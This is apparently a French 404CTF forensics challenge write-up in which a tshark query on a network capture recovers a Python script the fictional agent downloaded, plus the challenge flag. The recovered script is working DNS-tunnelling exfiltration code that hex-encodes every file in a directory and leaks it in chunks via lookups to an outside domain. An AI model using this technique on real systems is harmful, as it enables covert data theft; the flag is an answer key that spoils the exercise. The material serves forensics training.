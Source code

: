 Un agent compromis [1/3]
871

Nous avons surpris un de nos agents en train d'envoyer des fichiers confidentiels depuis son ordinateur dans nos locaux vers Hallebarde. Malheureusement, il a eu le temps de finir l'exfiltration et de supprimer les fichiers en question avant que nous l'arrêtions.

Heureusement, nous surveillons ce qu'il se passe sur notre réseau et nous avons donc une capture réseau de l'activité de son ordinateur. Retrouvez le fichier qu'il a téléchargé pour exfiltrer nos fichiers confidentiels.

Auteur : Typhlos#9037

$ tshark -r capture-reseau.pcapng -T fields -e http.request.full_uri -e http.file_data http
http://hallebarde.404ctf.fr/exfiltration.py
	import binascii\nimport os\nimport dns.resolver\nimport time\n\ndef read_file(filename):\n    with open(filename, "rb") as f:\n        return binascii.hexlify(f.read())\n\n\ndef exfiltrate_file(filename):\n    dns.resolver.resolve("never-gonna-give-you-up.hallebarde.404ctf.fr")\n    time.sleep(0.1)\n    dns.resolver.resolve(binascii.hexlify(filename.encode()).decode() + ".hallebarde.404ctf.fr")\n    content = read_file(filename)\n    time.sleep(0.1)\n    dns.resolver.resolve("626567696E.hallebarde.404ctf.fr")\n    time.sleep(0.1)\n    for i in range(len(content)//32):\n        hostname = content[i * 32: i * 32 + 32].decode()\n        dns.resolver.resolve(hostname + ".hallebarde.404ctf.fr")\n        time.sleep(0.1)\n    if len(content) > (len(content)//32)*32:\n        hostname = content[(len(content)//32)*32:].decode()\n        dns.resolver.resolve(hostname + ".hallebarde.404ctf.fr")\n        time.sleep(0.1)\n    dns.resolver.resolve("656E64.hallebarde.404ctf.fr")\n    time.sleep(60)\n\n\nif __name__ == "__main__":\n    files = os.listdir()\n    print(files)\n    for file in files:\n        print(file)\n        exfiltrate_file(file)\n\n\nflag = """404CTF{t3l3ch4rg3m3n7_b1z4rr3}"""\n
